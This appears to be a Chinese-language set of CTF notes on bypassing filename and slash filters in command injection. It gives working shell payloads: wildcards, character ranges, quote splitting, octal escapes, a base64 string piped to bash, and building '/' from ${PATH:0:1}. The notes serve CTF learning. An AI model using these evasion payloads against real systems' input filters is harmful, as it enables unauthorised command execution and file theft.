 ```yaml
---
tags:
  - ctf
create_time: 2023-12-07 23:31
modified_time: 2024-05-30 15:19
status: complete
---
```

## 文件名被过滤怎么绕过

### \*通配文件

linux里可以用`f*` 指代任何以f开头的文件，就像正则匹配，所以我们可以用`cat /f*` 获得flag

### ?匹配文件名

这个自然是最常见的了，比如我们知道flag的名字就是flag，但是可能flag这个字符串被过滤了，我们就可以用`?`匹配被ban的字符，用`cat /f???`获得flag

当然，前面不加这个f可以吗，也是可以的，就是容易被干扰

### 正则匹配

linux里可以用`[9-q]`这种形式匹配`ascii码在9到q之间`的字符，自然`cat /[9-q][9-q][9-q][9-q]`就等效于cat /flag了

### 分割文件名

linux里，`ca''t`、`ca\t`、`ca""t`和`cat`是等效的，所以我们可以用这种方式绕过关键词过滤：

### 转进制

我们可以把flag转成八进制，变成`$'\146\154\141\147'`，然后用`cat /$'\146\154\141\147'`即可

我们在网页传的时候建议编码（url encode）一下，因为`$`在php中有特殊含义，可能会产生干扰

当然，如果`$`没被ban的话也没限制命令长度的话，直接无字母数字构造命令都行，具体可以看看我之前写的利用shell脚本变量构造无字母数字命令以及CTFshow-周末大挑战官方wp

### 利用管道符

```bash
echo "Y2F0IC9mKg==" | base64 -d|bash
```

如果对应环境有其他编码也可以换其他冷门点的编码

## /被过滤怎么绕过

linux里`echo ${PATH}`可以获得当前路径：

所以很显然，我只要取第一个字符那就是/了：`echo ${PATH:0:1}`

随着这个逻辑可以代替`${PATH:0:1}`的使用方法也挺多的，比如`${PATH:4:1}`也代表/，当我们查看linux的环境变量，其实可以发现很多替代方法：

比如`${PWD:0:1}`、`${HOME:0:1}`、`${SHELL:0:1}`等等
